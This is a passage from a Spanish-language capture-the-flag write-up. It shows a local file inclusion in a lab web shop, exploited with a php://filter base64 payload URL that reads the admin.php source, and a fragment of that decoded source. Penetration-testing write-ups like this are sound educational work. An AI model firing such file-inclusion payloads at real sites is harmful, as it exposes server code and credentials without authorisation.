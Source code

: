 ![img](/imgs/write-ups/by-me/minimal/minimal_2_1.png)

Con esta vulnerabilidad y un **php wrapper**, puedo leer el resto de archivos de la siguiente manera.

```
http://192.168.1.125/shop_cart.php?action=php://filter/read=convert.base64-encode/resource=admin
```

Utilizo **Cyberchef** para pasar de base64 a php de nuevo.

A continuación muestro el código más importante:

### Admin
```php
<?php
[...]
if ($_SESSION['username'] !== 'admin') {
    header('Location: login.php');
    exit;
}
[...]
?>
<!DOCTYPE html>
[...]
   <h1>Admin Panel</h1>
    <div class="container">
        <h1>Add new Product</h1>
        <form action="admin.php" method="post" enctype="multipart/form-data">
            <label for="nombre">Name:</label>
            <input type="text" name="nombre" id="nombre" required>

            <label for="autor">Author:</label>
            <input type="text" name="autor" id="autor" required>
```